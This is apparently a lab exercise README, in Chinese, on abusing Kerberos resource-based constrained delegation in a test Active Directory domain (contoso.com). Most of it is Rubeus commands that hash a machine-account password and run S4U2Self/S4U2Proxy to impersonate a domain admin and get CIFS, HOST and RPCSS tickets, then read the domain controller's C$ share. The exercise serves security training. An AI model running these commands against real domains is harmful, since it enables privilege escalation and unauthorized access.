


# Exercise 6 - Kerberos Ressource-based Constrained Delegation

## Tools

所需工具：

- PowerView: [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- Rubeus: [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)


## Theory

### RBCD 正常用法



### RBCD 攻擊



## Exercise

實驗三中，攻擊者利用NTLM Relay將AD-01的RBCD(ressource-based constrained delegation)權限委派給evilpc$，在此實驗中我們將使用已擁有的evilpc$帳密模擬RDBC的攻擊，在此案例中，evilpc$可偽冒任意的domain user的身分使用AD-01上的任意服務。

使用最高權限載入所需powershell模組

```powershell
cd C:\attacker-tools
cat -raw .\Invoke-Rubeus.ps1 | iex
```

使用一個獨立於john的powershell session

```powershell
Invoke-Rubeus -Command "createnetonly /program:C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe /show"
```


利用evilpc$的明文密碼生成加密TGS封包的AES KEY

```powershell
Invoke-Rubeus -Command "hash /password:EvilPassword1 /domain:contoso.com /user:evil-pc$"
```

利用 S4U2SELF偽冒domain admin user `Bruce Willis` (bwillis)並使用S4U2PROXY分別取得AD-01上的CIFS、HOST和RPCSS的Service Ticket，
這三個SPN分別為以下服務:
- CIFS : SMB
- HOST、RPCSS : WMI


```powershell
Invoke-Rubeus -Command "s4u /user:evil-pc$ /aes256:<hash> /impersonateuser:bwillis /msdsspn:cifs/ad-01.contoso.com /ptt"
Invoke-Rubeus -Command "s4u /user:evil-pc$ /aes256:<hash> /impersonateuser:bwillis /msdsspn:host/ad-01.contoso.com /ptt"
Invoke-Rubeus -Command "s4u /user:evil-pc$ /aes256:<hash> /impersonateuser:bwillis /msdsspn:rpcss/ad-01.contoso.com /ptt"
```

- 查看kerberos票證

```powershell
klist
```

- 嘗試存取SMB
```powershell
ls \\ad-01.contoso.com\C$
```
